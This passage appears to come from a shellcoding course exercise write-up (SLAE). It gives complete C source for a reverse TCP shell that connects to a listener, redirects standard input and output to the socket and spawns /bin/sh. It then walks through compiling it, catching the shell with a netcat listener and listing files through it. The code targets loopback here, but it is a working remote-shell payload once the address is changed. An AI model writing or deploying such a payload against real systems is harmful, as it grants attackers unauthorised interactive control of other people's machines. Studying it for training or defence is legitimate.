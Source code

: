 ## The C progam<a id="sec-1-4" name="sec-1-4"></a>

    #include <stdio.h>
    #include <netinet/in.h>
    #define PORT 4444
    
    int main(int argc, char **argv) {
      // Create a socket
      int lsock = socket(AF_INET, SOCK_STREAM, 0);
    
      // Setup servr side config struct
      // We configure:
      // The family:IPv4
      // The interface: 127.0.0.1 (Loopback)
      // The port: port#
      struct sockaddr_in config;
      config.sin_family = AF_INET;
      config.sin_addr.s_addr = inet_addr("127.0.0.1");
      // The htons() function converts the
      // unsigned short integer hostshort from host byte
      // order to network byte order.
      config.sin_port = htons(PORT);
    
      // Connect to listening server
      int csock = connect(lsock, (struct sockaddr *) &config, sizeof(config));
    
      // Redirect stdin, stdout, and stderror
      dup2(lsock, 0);
      dup2(lsock, 1);
      dup2(lsock, 2);
    
      // Execute a shell
      execve("/bin/sh", NULL, NULL);
    };

## Analysis of the C progam<a id="sec-1-5" name="sec-1-5"></a>

Let's compile our program with `gcc reversetcpshell.c -o reversetcpshell`.
Next, lets start Netcat listening for a connection using `nc -nlvp 4444`.
Now that we have Netcat waiting for a connection we can go ahead and
execute our reverse tcp shell with `./reversetcpshell`. If we look over
at our Netcat terminal we will see that we have a received a connection
and been presented with a shell!

    root@blahblah:~/shared/SLAE/slae/exercise2# nc -nlvp 4444
    listening on [any] 4444 ...
    connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37260
    ls
    README.org
    reversetcpshell
    reversetcpshell.c
